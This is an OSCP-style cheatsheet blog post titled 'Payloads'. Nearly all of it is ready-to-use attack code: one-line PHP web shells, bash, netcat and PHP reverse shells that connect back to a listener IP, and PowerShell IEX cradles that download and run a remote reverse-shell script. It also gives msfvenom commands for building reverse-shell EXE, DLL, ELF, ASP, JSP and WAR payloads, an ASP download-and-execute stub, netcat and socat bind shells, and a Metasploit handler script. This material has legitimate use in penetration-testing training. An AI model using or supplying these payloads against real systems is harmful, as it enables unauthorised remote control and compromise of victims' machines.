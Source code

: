 ```yaml
---
title: Payloads
author: sKyW1per
category: "OSCP"
date: "2021-03-06 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Kali Webshells
```
Kali ready-to-go webshells
/usr/share/webshells/
/usr/share/seclists/Web-Shells/
```

###### PHP code snippets
```php
/*PHP code for a simple web shell:*/
<?=`$_GET[0]`?>
<?php echo shell_exec($_GET['cmd']); ?>
<?php $cmd=$_GET['cmd']; system($cmd);?>

/*PHP to immediately pop a shell (linux-only)*/
<?php $sock=fsockopen("192.168.1.1",443); exec("/bin/sh -i <&3 >&3 2>&3");?>
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.1/443 0>&1'");?>
```

###### Ready-to-go reverse shell payloads
```
Nishang
https://github.com/samratashok/nishang

PayloadsAllTheThings
https://github.com/swisskyrepo/PayloadsAllTheThings

Pentestmonkey Cheatsheet
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Shell Spawning with NetSec
https://netsec.ws/?p=337
```

###### Pop a shell from bash
```
Bash
$ bash -i >& /dev/tcp/192.168.1.1/443 0>&1

Netcat
$ nc -e /bin/bash 192.168.1.1 443
```

###### Powershell
```
PS download payload and execute immediately
$ powershell.exe -c IEX (New-Object System.Net.WebClient).DownloadString('
http://192.168.1.1/Invoke-PowerShellTcp.ps1')
$ powershell.exe -c IEX (New-Object Net.WebClient).DownloadString('
http://192.168.1.1/Invoke-PowerShellTcp.ps1')

or newer variant:
$ powershell.exe -c 'IEX(IWR http://10.10.10.10/Invoke-PowerShellTcp.ps1 -UseBasicParsing)'

How to use powershell to pop a second connection with interactive shell
Open a listener on 1 port and a web server with payload on another. Then run:
$ Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://192.168.1.1/Invoke-PowerShellTcp.ps1')"
```

###### List msfvenom payload options
```
$ msfvenom -l payloads | grep php
$ msfvenom -l archs
$ msfvenom -l formats
```

###### Windows payloads for in a python script
```
Unstaged payload
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -b "\x00" -f python -v shellcode -a x86 --platform windows > payload.txt

Staged payload
$ msfvenom -p windows/shell/reverse_tcp LHOST=192.168.1.1 LPORT=443 -b "\x00" -f python -v shellcode -a x86 --platform windows > payload.txt
```

###### Windows reverse shells
```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f dll > msf.dll
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f exe > shell.exe
```

###### Linux reverse shells
```
x86
$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f elf > shell.elf
x64
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f elf > shell.elf
$ msfvenom -p cmd/unix/reverse_bash LHOST=192.168.1.1 LPORT=443 -f raw > shell.sh
```
s
###### Some more reverse shells
```
.php
$ msfvenom -p php/reverse_php LHOST=192.168.1.1 LPORT=443 -f raw > shell.php
.asp
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f asp > shell.asp
.jsp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f raw > shell.jsp
.war
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f war > shell.war
```

###### Simple ASP(X?) payload without importing additional libraries
```
<%
Set s = CreateObject("WScript.Shell")
Set cmd = s.Exec("cmd /c powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.10.10:80/InvokePowerShellTcp.ps1')")
o = cmd.StdOut.Readall()
Response.write(o)
>
```

###### Netcat reverse shell
```
Set up a listener
$ nc -nvlp 443

Connect to the listener (Windows)
$ nc -nv 192.168.1.1 443 -e cmd.exe
Connect to the listener (Linux)
$ nc -nv 192.168.1.1 443 -e /bin/bash
```

###### Netcat bind shell
```
Set up a listener (bind shell) (Windows target)
 $ nc -nvlp 10.10.10.10 443 -e cmd.exe
Set up a listener (bind shell) (Linux target)
 $ nc -nvlp 10.10.10.10 443 -e /bin/bash

Connect to the listener
$ nc -nv 192.168.1.1 443
```

###### Socat encrypted bind shell
```
Set up a listener (bind shell)(Linux target)
$ sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash

Connect to the listener
$ socat -d -d - OPENSSL:10.10.10.10:443,verify=0
```

###### Metasploit Multi Handler (.rc script)
```
use exploit/multi/handler
set PAYLOAD windows/shell_reverse_tcp
set LHOST 192.168.1.1
set LPORT 443
set ExitOnSession false
exploit -j -z
```

